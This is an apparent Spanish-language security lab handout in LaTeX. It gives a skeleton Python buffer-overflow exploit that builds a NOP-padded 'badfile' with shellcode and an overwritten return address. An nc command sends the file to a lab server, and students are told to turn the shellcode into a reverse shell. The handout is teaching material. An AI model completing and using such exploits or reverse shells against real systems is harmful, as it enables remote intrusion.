 \newcommand{\needtochange}{\ding{73} Necesita completarse \ding{73}}


\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

Al terminar de completar el programa anterior, debe correrlo. Esto generará el contenido para el archivo \texttt{badfile}. Una vez generado debe ser enviado al servidor vulnerable. Si el exploit es implementado de manera correcta, el código del shellcode será ejecutado. 
Si el comando usado genera algún output este será mostrado en dentro de los mensajes del contenedor. Por favor incluya las pruebas que muestren que su servidor vulnerable ha sido capaz de correr los siguientes comandos.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Shell Reversa.}
Dado que estamos haciendo un ataque a un servidor remoto desde nuestra máquina local, no nos servirá de mucho correr \texttt{/bin/sh} en el servidor vulnerable, ya que será ejecutado de forma local y no podremos tener el control sobre este shell desde nuestro lado. Una de las técnicas más comúnes para lograr control sobre este shell de forma remota es la Shell Reversa. En la Sección \ref{sec:guildelines} se explica como correr una shell reversa.
Ud. deberá de modificar la cadena de comandos en el shellcode, para poder obtener una shell reversa en el servidor vulnerable.
Por favor incluya las explicaciones pertinentes junto con los screenshots de este procedimiento en el informe de laboratorio.


